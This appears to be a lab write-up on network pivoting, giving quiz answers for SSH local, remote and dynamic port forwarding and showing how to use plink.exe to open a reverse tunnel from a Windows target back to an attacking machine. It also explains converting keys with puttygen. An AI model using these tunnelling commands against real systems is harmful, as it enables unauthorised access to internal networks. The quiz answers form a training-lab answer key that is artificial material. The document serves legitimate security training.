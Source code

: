 **Which switch combination can be used to background an SSH port forward or tunnel?**

- `-fN`

**It's a good idea to enter our own password on the remote machine to set up a reverse proxy, Aye or Nay?**

- `nay`

**What command would you use to create a pair of throwaway SSH keys for a reverse connection?**

- `ssh-keygen`

**If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called id_rsa and backgrounding the shell, what command would you use? (Assume your username is "kali")**

- `ssh -R 2222:172.16.0.200:22 kali@172.16.0.100 -i id_rsa -fN`

**What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?**

- `ssh -D 8000 user@target.thm -fN`

**If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.**

- `ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN`

* * * 

## Pivoting - plink.exe 

plink is Puttys windows commmand line version of ssh. Windows servers are unlikely to have SSH servers running so transferring plink binaary to the target and using it to create a reverse connection can be done with the following: 

- `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N` 

Pretty much identical to the ssh commands. the `cmd.exe /c echo y` command is for non-interactive shells, in order to get around the wartning message that the target has not connected to the host before.

If we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:

- `cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using sudo apt install putty-tools. After downloading the tool, conversion can be done with:

- `puttygen KEYFILE -o OUTPUT_KEY.ppk`

Substituting in a valid file for the keyfile, and adding in the output file.

The resulting .ppk file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).
